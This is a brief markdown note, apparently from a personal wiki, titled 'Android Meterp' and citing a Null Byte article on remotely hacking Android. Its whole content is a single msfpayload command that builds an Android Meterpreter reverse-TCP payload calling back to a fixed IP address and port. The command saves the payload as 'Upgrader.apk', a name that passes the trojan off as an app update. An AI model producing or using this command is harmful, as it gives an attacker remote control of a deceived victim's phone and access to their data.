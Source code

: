 <!-- TITLE: Android Meterp -->
<!-- SUBTITLE: A quick summary of Android Meterp -->


From https://null-byte.wonderhowto.com/how-to/hack-android-using-kali-remotely-0160161/
# Making Meterp
```
msfpayload android/meterpreter/reverse_tcp LHOST=75.70.125.27 LPORT=9995 R > /root/Upgrader.apk
```

